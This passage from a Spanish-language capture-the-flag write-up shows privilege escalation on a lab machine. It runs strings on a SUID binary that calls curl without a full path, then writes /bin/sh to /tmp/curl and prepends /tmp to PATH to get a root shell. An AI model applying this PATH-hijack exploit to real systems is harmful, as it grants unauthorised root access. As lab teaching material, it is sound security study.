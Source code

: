 #### Hacemos un strings al binario para ver que encontramos

- Ejecuta los comandos curl, uname -r, ifconfig

```
strings -n 10 /usr/bin/menu 

/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
__isoc99_scanf
puts
__stack_chk_fail
printf
system
__libc_start_main
__gmon_start__
GLIBC_2.7
GLIBC_2.4
GLIBC_2.2.5
UH-`
AWAVA
AUATL
[]A\A]A^A_
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig


```

Esto nos muestra que el binario se está ejecutando sin una ruta completa (por ejemplo, no utiliza /usr/bin/curl o /usr/bin/uname).

Como este archivo se ejecuta con privilegios de usuario root, podemos manipular nuestra ruta para obtener un shell root

#### Copiamos /bin/sh como curl en la carpeta temporal y modificamos la ruta

- Copiamos

```
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
```

- Modificamos la ruta
```
echo $PATH

/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

export PATH=/tmp:$PATH
echo $PATH

/tmp:/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

```